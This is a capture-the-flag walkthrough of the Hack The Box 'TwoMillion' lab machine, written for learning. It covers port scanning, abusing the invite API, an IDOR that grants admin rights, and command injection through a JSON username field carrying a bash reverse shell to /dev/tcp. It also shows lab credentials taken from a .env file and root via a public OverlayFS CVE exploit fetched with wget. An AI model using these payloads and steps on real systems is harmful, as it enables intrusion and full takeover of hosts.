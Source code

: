 Scan - min-rate is very fast and can crash shitty home nodes/devices.

```
sudo nmap -p- --min-rate=10000 -oA nmap/twomillion-allports -v <machine>

Increasing send delay for 10.10.11.221 from 0 to 5 due to 1086 out of 3618 dropped probes since last increase.
Increasing send delay for 10.10.11.221 from 5 to 10 due to 508 out of 1693 dropped probes since last increase.
Warning: 10.10.11.221 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.221
Host is up (0.34s latency).
Not shown: 48931 closed tcp ports (reset), 16602 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Next vulnerability scan:

```
sudo nmap -v -p22,80 -sV -sC -oA twomillionv 10.10.11.221

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-favicon: Unknown favicon MD5: 20E95ACF205EBFDCB6D634B7440B0CEE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Create an entry in a host file:

```
10.10.11.221 2million.htb
```

Using feroxbuster to scan down the web:

```
feroxbuster -u 2million.htb
```

JS from /invite/inviteapi.min.js

```
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

Make some sense of it with https://beautifier.io/

```
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```

POST the API with curl:

```
curl -X POST 2million.htb/api/v1/invite/how/to/generate | jq .

{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

Upon simple ROT13 decoding: In order to generate the invite code, make a POST request to /api/v1/invite/generate

curl POST for base64 decode -> MXQ0T-HK4G6-X00KC-P5BPI

OR:
```
curl -s -q -X POST 2million.htb/api/v1/invite/generate | jq .data.code -r | base64 -d;echo
```

Fire up **Burp** and dig trough API request. First intercept and then check the route via /api/v1. To get the full list:

```
curl -s -q 2million.htb/api/v1 -H "Cookie: PHPSESSID=r6g2qrgdqircd9u4o0munq2euj" | jq .
```

There is a possibility to **change my role to admin**.
PUT /api/v1/admin/settings/update - an **IDOR Vulnerability**:
https://www.varonis.com/blog/what-is-idor-insecure-direct-object-reference

```
PUT /api/v1/admin/settings/update HTTP/1.1
...
Content-type: application/json
Cookie: PHPSESSID=r6g2qrgdqircd9u4o0munq2euj
...
{"email": "adam.dekan@gmail.com", "is_admin" : 1 }
```

The next step is to create a **command injection** via "username" which can be basically any username()

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Content-Length: 72
Content-Type: application/json
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://2million.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=qnbchmjm5n6m6nttdgfn6dmbv8
Connection: close

{
"username":"a$(bash -c 'bash -i >& /dev/tcp/10.10.16.70/9001 0>&1')"}
```

It attempts to establish a reverse shell by redirecting the input and output streams of the `bash` shell to a TCP/IP connection.

Let's break down the command:

- `bash`: Launches an interactive instance of the Bash shell.
- `-i`: Specifies that the Bash shell should run in interactive mode, allowing for interactive input and output.
- `>&`: Redirects both the standard output (stdout) and standard error (stderr) streams.
- `/dev/tcp/10.10.16.70/9001`: This is a special file in Linux that represents a TCP/IP connection. It specifies the IP address (`10.10.16.70`) and port (`9001`) to which the shell's output will be redirected.
- `0>&1`: Redirects the standard input (stdin) stream to the same TCP/IP connection, ensuring that input and output are both sent over the network connection.

By executing this command, if a network connection is successfully established to the specified IP address and port, the remote machine will have an interactive shell through which it can send commands and receive responses.

On my end I have to **start listening** with `nc -lvnp 9001`

- `-l`: This option instructs netcat to operate in listening mode, waiting for incoming connections.
- `-v`: This option enables verbose output, providing more detailed information about the connections and data transfers.
- `-n`: This option disables DNS resolution, preventing netcat from attempting to resolve IP addresses to hostnames.

After **connection** is established I need to spawn a proper bash with `pyhon3 -c 'import pty;pty.spawn(/bin/bash)'`

It's a good practice now to to put bash into background with <Ctrl+Z>
and modify the terminal settings to **raw output without echoing** to make the output unprocessed and invisible with
`stty raw -echo;fg`

With `ls` explore the www-data and find Database.php which points to environment variables. In a file .env is stored login and password that works also for ssh:

admin
SuperDuperPass123

After searching the filesystem:
`find / -user admin 2>/dev/null | grep -vE '^/(sys|proc|run)/'`

Inside /var/mail/admin there is a hint of unfixed possible exploit:
https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/
https://securitylabs.datadoghq.com/articles/container-security-fundamentals-part-2/#user-namespace

And **proof of concept**:
https://github.com/xkaneiki/CVE-2023-0386/

I've cloned locally the Git and zipped the CVE in a www folder. With `python -m http.server` and download the exploit into admin home folder with `wget 10.10.16.70:8000/CVE`. Unzip, make and continue according to the translated information from proof of concept README.

Root accessed.

return 0